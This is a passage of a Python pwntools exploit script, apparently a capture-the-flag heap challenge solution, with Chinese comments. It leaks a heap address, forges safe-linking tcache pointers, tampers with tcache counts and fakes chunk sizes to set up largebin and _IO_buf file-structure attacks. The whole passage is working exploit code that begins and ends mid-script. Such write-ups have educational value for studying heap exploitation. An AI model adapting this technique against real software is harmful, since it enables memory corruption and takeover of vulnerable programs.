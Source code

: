 ```bash
    sa(b'Index:', str(idx).encode())
    ru(b'Content:')

def delete(idx):
    sa(b'Choice:', b'4')
    sa(b'Index:', str(idx).encode())

def mchunk_size(size):
    return p64(0) + p64(size)

def pwn():
    cc()

    add(0)
    add(1)
    delete(0)
    show(0)
    heap_addr = u64(rr(5).ljust(0x8, b'\x00')) << 12
    log.success('heap_addr: 0x%x', heap_addr)

    # 提前记录好 _IO_buf_base 和 _IO_buf_end 的相关参数
    length = 0x240
    start = heap_addr + 0x240 
    end = start + ((length) - 100)//2

    delete(1)
    poc = ((heap_addr+0x2c0) >> 12) ^(heap_addr+0x50)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 修改 0x240 的 tcache 数量，并构造好首部
    edit(1, p8(8)*8 + p64(0x241))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    # 将 fd 指向刚刚构造好的 0x240 chunk
    poc = ((heap_addr+0x2e0)>>12) ^ (heap_addr+0x60)
    edit(1, p64(poc))
    add(1)
    add(0) # unsorted_chunk: heap+0x10
    log.success('unsorted_chunk: 0x%x', heap_addr+0x60)
    delete(1)

    add(1)
    edit(1, mchunk_size(0x21))
    add(1)
    edit(1, mchunk_size(0x451))
    for i in range(0x22):
        add(1)

    add(1)
    add(2)
    delete(1)
    delete(2)
    poc = ((heap_addr+0x780)>>12) ^ (heap_addr+0x310)
    edit(2, p64(poc))
    add(2)
    # 获得第一块 largebin_chunk，地址为 heap+0x300
    add(1) 
    log.success('large chunk No.1: 0x%x', heap_addr+0x300)
```